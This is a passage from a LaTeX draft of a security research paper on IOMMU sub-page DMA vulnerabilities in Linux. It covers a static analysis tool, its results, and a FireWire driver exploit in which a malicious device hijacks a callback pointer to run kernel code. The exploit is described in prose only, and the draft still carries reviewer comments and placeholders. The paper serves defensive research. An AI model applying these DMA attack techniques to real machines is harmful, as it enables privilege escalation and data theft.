    
\includegraphics[width=1.3\columnwidth]{figs/deferred.png}
    \caption{Strict vs. deferred IOTLB invalidations. In deferred mode, there is a period
where the data is accessible but the mapping no longer exists.}
    \label{fig:deferred}
\end{figure*}
To translate addresses efficiently, the IOMMU caches translations in an input/output translation lookaside buffer (IOTLB). Like MMUs, IOMMUs do not maintain consistency between the IOTLB and the IOMMU page tables, which reside in memory; instead, the OS is required to restore consistency by explicitly invalidating the IOTLB. Therefore, to ensure that the IOTLB never holds stale entries, the OS must invalidate the IOTLB immediately after it removes memory mappings. Yet this scheme, called the “strict” mode in Linux, can degrade performance, as IOTLB invalidations can induce very high overhead \cite{MMT16,MSMT18,Peleg15}. In I/O intensive workloads, the number of required IOTLB invalidations can be extremely high, as IOMMU entries are unmapped following each I/O operation. Moreover, the overhead of each IOTLB invalidation can be as high as 2000 cycles \cite{ABYTS11}, considerably more than TLB invalidation, which takes roughly 100 cycles \cite{Han14}. To reduce this overhead, Linux defers TLB invalidations by default, and instead performs periodic global TLB invalidations. This “deferred” mode induces smaller performance overheads relative to the alternative “strict” mode. Nevertheless, as depicted in Figure \ref{fig:deferred}, deferring IOTLB invalidations may not prevent I/O devices from accessing unmapped pages, as the IOMMU may perform translations using stale IOTLB entries until the actual invalidation. This behavior introduces a security hazard, as the OS can reuse pages for other purposes after they are unmapped, regardless of the actual time of IOTLB invalidation. In the time window between the unmap operation and the actual invalidation, the OS may place sensitive data in the unmapped page-frame which the device may then read or modify. This time frame may be as high as 10 milliseconds when I/O traffic is low \cite{MSMT18}. In fact, this is a common scenario, as OSs prefer to reuse “hot” page-frames, recently freed, as they are likely to be already cached in the CPU caches\cite{hotcold}
. Therefore, it is possible in certain cases to predict how unmapped memory would be reused and which data it would expose.  
%As we demonstrate in Section 4.3, this behavior enables us to build robust assaults powerful enough to gain full control over a victim system.
\subsection{Threat Model}
Our attacks are built on the following assumptions:
\begin{enumerate}
    \item The actual attack is performed by a DMA-capable malicious device.
    \item There is software that violates the least-privilege principle with respect to the I/O device. The inherent vulnerabilities in the common use of the IOMMU make this a realistic assumption (§\ref{sec:sbp2_attack}). 
 \end{enumerate}
 The attacks discussed in this work are not executed by modifying the victim’s OS or drivers. We also assume that any hardware aside from the specific malicious device is working as expected, especially the DMA controller and the IOMMU itself. We also do not consider ports intended for debugging (e.g., jtag).
\subsection{Consequences}
The greatest potential consequence of our attacks is privilege escalation, which allows attackers to execute arbitrary code with kernel privileges. In all our experiments, we successfully executed code in the context of the kernel. Another potential consequence of our attacks is denial of service \cite{MMT16}. Ideally, malformed devices should not be able to crash the entire system. The IOMMU is expected to properly isolate the devices from the OS to ensure this does not happen. Bad isolation, such as colocation of different types of data in the same page, may lead to system instability. To reach the above results, the attacker must have write permissions to some memory region. When an attacker has only read permissions, the consequences may still be interesting as they may lead to data leakage\cite{thunder}. The kernel often keeps sensitive data such as encryption keys and passwords as plain-text in memory. Attackers may use incorrect read permissions to leak this sensitive data.
\section{Detecting Sub-Page Vulnerabilities}
We next present the tools we have developed to identify \subpage vulnerabilities described in the previous section.

\begin{figure*}
\begin{adjustbox}{width=\linewidth}
\lstset{
    escapechar={|}, 
    keywords=[2]{Callbacks},
    keywordstyle=[2]\color{gray},
    basicstyle=\color{red},
    keywordstyle=\color{purple},
    commentstyle=\color{teal},
    %morecomment=[s][\color{teal}]{/**}{*/}
    stringstyle=\color{blue},
}
        \begin{lstlisting}[
        basicstyle = \small,
        %basicstyle=\ttfamily,
        columns = fixed,
        tabsize=4,
        %frame = l,
        xleftmargin=0in,
        language = C,
       % moredelim=**[is][\color{red}]{@}{@},
        ]
[8]/*** Spoofed Vulnerability:*/ |\color{red}931| Callbacks reachable via struct nvme_fc_fcp_op : DMA_FROM_DEVICE
[7]/*** Direct Vulnerability: */ |\color{red}1 |  Callback exposed in    struct nvme_fc_fcp_op : DMA_FROM_DEVICE
[6]/*mapped type:*/ struct nvme_fc_fcp_op
[5]/*DECLARATION*/["__nvme_fc_init_request:1698"]:__nvme_fc_init_request(struct nvme_fc_ctrl *ctrl,
                                                                struct nvme_fc_queue *queue, struct nvme_fc_fcp_op *op, ...)
[4]/*CALL*/["__nvme_fc_init_request:1731"]: fc_dma_map_single(ctrl->lport->dev, &op->rsp_iu, 
                                                        sizeof(op->rsp_iu), DMA_FROM_DEVICE);
[3]/*mapped type:*/ void
[2]/*DECLARATION*/["fc_dma_map_single:935"]:fc_dma_map_single(struct device *dev, void *ptr, ...) {
[1]/*CALL*/["fc_dma_map_single:939"]: return dev ? dma_map_single(dev, ptr, size, dir) : (dma_addr_t)0L;

                \end{lstlisting}
\end{adjustbox}
        \caption{\tool output example. Showing a path in the nvme\_fc driver where a callback pointer is exposed with write access.}
        \label{fig:tool_example}

\end{figure*}
%[4]RECURSION:1:drivers/nvme/host/fc.c __nvme_fc_init_request 1731

\subsection{Static Code Analysis Tool}\label{sec:static-analysis}

\adam{modify the subsection's title accordingly}
We devise a static code analysis tool that performs Sub-Page Analysis for DMA Exposure (\tool). With well over a 1000 \texttt{dma\_map*} function calls (the set of functions implementing the DMA API)\adam{first time the concept ``DMA API'' is mentioned. Should be discussed in the background, when talking about how IOMMU is controlled}, in the Linux kernel, a manual process would be arduous. \tool flags drivers where callback pointers may be exposed. \tool looks for \texttt{dma\_map*} functions and traces back the call stack to identify if the mapped buffer is embedded inside a data structure (Fig.~\ref{fig:colocation} (a)). Additionally we look for potentially hazardous functions (e.g., \texttt{build\_skb}), that create a data structure inside a mapped buffer (Fig.~\ref{fig:colocation} (b)).\adam{this ``hazardous function'' comes out of nowhere and wasn't discussed in the characterization, which makes the  characterization looks questionable}
%The risk is classified according to the access permission. \means{} is implied by a READ permission and \oportunity{} is implied by a WRITE/BIDIRECTIONAL permission. 
The case of multiple \iova{} (Fig.~\ref{fig:colocation} (c)), is also flagged by \tool, which flags use of functions (e.g., netdev\_alloc\_skb, napi\_alloc\_skb) that may result in this type of vulnerability or any other function that uses the page frag api. 
\adam{why do specific functions cause this vulnerability and not other DMA API calls? explain what these ``bad'' functions do}

%Currently, human expert input is needed to determine which functions are truly \emph{hazardous}, as acquiring \motivation and \oportunity is not done automatically. 
%As a result, \tool determines type (a) vulnerabilities automatically and types (b) and (c) only with sufficient human expert input. \textcolor{olive}{As we demonstrate in Sec.~\ref{sec:shinfo}.}

%The output of the tool presents structured and filtered findings conductive for more in-depth human expert analysis to determine if a viable attack is feasible. 

%Type (d) vulnerability falls under the category of random access\textcolor{olive}{,and we discuss such vulnerabilities} \st{and discussed further} in  Sec.~\ref{sec:dma-kasan}.

\subsubsection{Design}
\tool operates recursively starting from a set of \textit{root functions} (e.g., dma\_mag\_single) (i.e., collecting all the function calls). \tool utilises Cscope~\cite{cscope,cscope_92} to navigate the kernel code. Cscope is an open source tool for browsing C source code. From this initial set of calls, \tool identifies the mapped variables and backtracks their declarations and assignments to these variables. When a data structure is identified as exposed, \tool searches
exposed callback pointers or mapped heap pointers. \tool also utilises \texttt{pahole}~\cite{dwarves} to explore the compiled binaries for the layout of the exposed data structures. Pahole is a tool that uses the DWARF~\cite{dwarf} standardized debugging data format to examine data structure layout.

\tool is applicable to any Kernel code written in C. We intend to make the \tool publicly available for benefit of the research community.

\adam{general comment: this is really short and makes the tool look trivial. Even if it's indeed trivial, isn't there anything interesting to say about it?}

%The algorithm performs the following:
%\begin{enumerate}
%    \item Identify the mapped variable.
%    \item Locate variable declaration
%        \begin{itemize}
%            \item Identify biggest enclosing data structure that is mapped.
%            \item If callbacks located stop.
%        \end{itemize}
%    \item Locate Relevant assignments. For each:
%        \begin{itemize}
%            \item In case variable is assigned from new var restart from 2. 
%            \item in case of allocation: stop.
%        \end{itemize}
%    \item If declaration is reached:
%        \begin{itemize}
%            \item If function Call: Locate all calls and return to 1.
%            \item If on heap - check if heap is mapped: stop.
%        \end{itemize}
%\end{enumerate}

\subsubsection{Analysis and Results}
We use \tool over Linux kernel 5.0 code,
analysing 1019 dma\_map\_single calls over 447 files. We present the results in Tab.~\ref{tab:static_analysis}. We dedicate special attention to struct \shinfo, which is used ubiquitously in Linux networking. This data structure is \textit{always} located on the same page as the \texttt{skb->data}, and it also contains a callback pointer. We discuss the vulnerabilities related to \shinfo in Sec.~\ref{sec:linux_net}. We find that more than 50\% of the dma-map calls expose \shinfo either by directly mapping the \texttt{skb->data} or via the \texttt{build\_skb} API (lines 2 \& 7 in Fig.~\ref{fig:tool_example}). The OS provides this data structure layout and API rather than it being an isolated driver bug. Additionally, we find 19 data structures that are exposed via APIs that store \texttt{private} data structures on the same page as vulnerable meta-data, e.g., netdev\_priv, aead\_request\_ctx and scsi\_cmd\_priv.\adam{flip the order of this paragraph. Start with the general findings (from the previous sentence and until the end of the paragraph, and then talk about shinfo, making it look like you discovered it by analyzing the tool's output. The current layout looks weird.} We find 156 cases in which device drivers inadvertently expose callback pointers. Of these, 54 are cases where the pointers are exposed directly, and the rest are cases where callback pointers can be spoofed.\footnote{In this case, spoofing means replacing this pointer to indicate an instance of the structure created by the device, with its own callback pointers.}
We find that 13\%~(line 1 in Fig.~\ref{fig:tool_example}) of the drivers expose data structures via type (a) vulnerability whereas 60\%~(lines 2,7 in Fig.~\ref{fig:tool_example}) expose data structures via type (b) vulnerabilities. Namely, 13\% are vulnerable due to driver bugs and 60\%~ of drivers are vulnerable due to OS design choices. 
%(i.e., a pointer to a data structure which contains callbacks is exposed).
%\adam{unclear what pointer spoofing means, and why having a pointer to a data structure with a callback is useful. Is the ? Need to say this explicitly}
%\adam{the table says ``heap mapped'', not stack}.
In addition to type (a) and (b) vulnerabilities, \tool has flagged 344 cases where type (c) vulnerability is present.
%We summarize the results in table~\ref{tab:static_analysis}. 
Our analysis also finds three instances where the stack pointer is mapped.

\begin{table}[t]
\centering
\resizebox{1.0\linewidth}{!}{%
\begin{tabular}{l|c|c}
   Stat  & \#API calls   & \#Files      \\ \hline
1. Callbacks exposed          & 156 (15.3\%) & 57 (12.8\%) \\
2. \texttt{skb\_shared\_info} mapped   & 464 (45.5\%) & 232 (51.9\%) \\
3. Callbacks exposed Directly & 54            & 28           \\
4. Private data mapped        & 19            & 7            \\
5. Stack Mapped                &     3          &         3     \\
6. Type C vulnerability       & 344           & 227          \\
7. \texttt{build\_skb} used            & 46            & 40           \\ \hline
Total dma-map calls        & 1019          & 447       \\  
\end{tabular}
%
}
\vspace{1mm}
\caption{\tool result summary.}
\label{tab:static_analysis}
\end{table}

\subsubsection{Output}

\adam{shouldn't this section come after the Design section, before discussing the results?}
For each DMA-mapping call, \tool outputs the line numbers of relevant declarations, function calls, and assignments, allowing for a human expert to trace back and validate the vulnerability. We present an example output of a vulnerability found in the NVMe host driver in Fig.~\ref{fig:tool_example}.

The output starts from the impact evaluation, and continues with pertinent code lines. Starred lines contain script analysis\adam{what is script analysis? Who said anything about a script?}. In Fig.~\ref{fig:tool_example}, line 7 tells us that a single callback pointer is mapped in the mapped \texttt{nvme\_fc\_fcp\_op} data structure (i.e., \texttt{fcp\_req.done}) and line 8 tells us that it is possible to spoof another 931 callback pointers.
%by rewriting contained pointers to data structures that contain other callback pointers.
On Line 6, \tool, after finding the variable declaration (i.e., line 5) and looking at the mapped pointer (i.e., \texttt{\&op->rsp\_iu} on line 4), concludes that the whole \texttt{struct nvme\_fc\_fcp\_op} is exposed to the device. Lines 3-1 repeat the same analysis process for the \texttt{dma\_map\_single} call that exposes the data structure to the device. 
%.1\textwidth,
\section{\simple{} Attacks}\label{sec:attack_setup}

In this section, we discuss \simple{} attacks, i.e., exploits in which the trifecta appears within a single page.
We find several such potential \simple{} exploits in the Linux kernel. We detail such an example in the FireWire driver, as this is the hardware we have in our setup. 



\subsection{Attack setup}
In our attacks, we use a Dell PowerEdge R610 server, an Intel x86 machine with Ubuntu 18.04 (kernel version 4.15), as our victim machine. The server is equipped with Intel VT-d IOMMU a Broadcom NetXtreme II BCM5709 Gigabit Ethernet NIC, a Mellanox Technologies ConnectX-4 Ethernet NIC and VIA Technologies, Inc. VT6315 Series Firewire Controller. An identical machine connected to the victim with a FireWire cable acting as the attacker. 

We create a malicious FireWire device by modifying the Linux-IO Target (LIO) subsystem on the attacker machine. The LIO subsystem supports hard disk emulation for remote computers via the \spb{} protocol; and, as such, is a suitable platform to execute such attacks. 

We implement multiple attacks against the Linux kernel network stack. In order to demonstrate an attack by a malicious NIC, we use a FireWire device similarly to \cite{SLND10}. To emulate an attack by a malicious NIC using a FireWire device, we create an \iova{} page table sharing between the FireWire and the actual NIC. A minor patch is needed for the victim OS to facilitate this emulation. This way, the attacker machine can access the same pages as the Broadcom NIC, which allows us to execute an attack using a programmable interface, emulating a malicious NIC.

\subsection{FireWire Background}

The FireWire protocol is a serial replacement for the parallel SCSI bus, which provides connectivity for digital audio and video equipment. The SBP-2 (serial bus protocol $\#2$) enables the use of SCSI devices over Firewire. 

While Firewire is a somewhat outdated physical connector, rarely in use for modern systems, some cables allow seamless conversion between Firewire and Thunderbolt. This allows for Firewire use in modern setups.

A SCSI connection consists of two endpoints: an initiator' (i.e., OS), which initiates SCSI session, and a target (i.e., a disk), which holds for the initiator's commands and provides the required I/O data transfers. 

Linux has a Linux-IO (LIO) module, which allows for a Linux machine to act as a SCSI target. One can boot the machine in \emph{target disk mode}, such that it acts as a disk (i.e., SCSI target) when connected to another computer. When the connection is via FireWire, the SPB2 protocol is used.

\subsection{Linux FireWire Exploit} \label{sec:sbp2_attack}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{figs/sbp.png}
    \caption{\texttt{spb2\_management\_orb} struct with fields relevant to the DMA attack.}
    \label{fig:orb}
\end{figure}

The Linux FireWire driver has a type (a) (Fig. \ref{fig:colocation} (a)) sub-page vulnerability. Both the device metadata and the I/O buffers for the \spb{} protocol implemented by the spb2 driver are contained inside the \texttt{spb2\_management\_orb} struct (Fig. \ref{fig:orb}). This provides the attacker with both \means{} and \oportunity{}.

To enable communication between the initiator and the target, the spb2 driver maps the request and response fields. As a result, the whole 4~KB page, that contains the \texttt{spb2\_management\_orb} struct is accessible with both READ and WRITE to the device. Read access is available via the \iova{} created when the \emph{request} was mapped. Write access is available via the \iova{} created when the \emph{response} was mapped. Consequently, the device can read and manipulate both the request and response fields as well as the metadata. 

Additionally, the \texttt{spb2\_management\_orb} struct contains a callback function \texttt{base.callback} which provides the \oportunity{}. Generally, to preserve normal device behavior, the original callback should also be called before or after the malicious code. However, in our experiments, we have found that ignoring the original callback has no ill side effects. 

The \texttt{spb2\_management\_orb} struct also holds its own address in the \texttt{base.t.link} field, and thus provides the attacker with \means{}. At this point, the attacker can create a \mabaf{} on the same page and complete the MMO trifecta. 

The code of the \mabaf{} appears in Appendix \ref{apx:shellcode}. It is also important to note that in this attack KASLR was irrelevant, as the critical \kva{} appeared in full, inside the readable page.

\smallskip
\noindent \textbf{Remark 1.} To date (kernel 5.3), the \texttt{spb2\_management\_orb} struct has not changed.

\smallskip
\noindent \textbf{Remark 2.} Additional such exploits, also appear in these drivers(a partial list) : nvme\_fc driver, and others...\footnote{\textcolor{red}{Find more}},
The difference in detailing each such exploit would extend only to the structure names. \SV{dempstrate the tool.. say the tool found it and give examples...}
\section{Compound DMA attacks}\label{sec:linux_net}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{figs/page_frag.pdf}
    \caption{Allocation of B bytes from page\_frag}
    \label{fig:page_frags}
\end{figure}

So far, we have discussed how a malicious device can take over a machine by exploiting type (a) sub page vulnerability of the FireWire driver. In this section we explore new attacks on the Linux network stack; where \means{} and \oportunity{} 
are initially missing but are attainable via compound steps, leaving room to dangerous privilege escalations attacks.

\subsection{\shinfo}
\begin{figure}[t]
    \centering
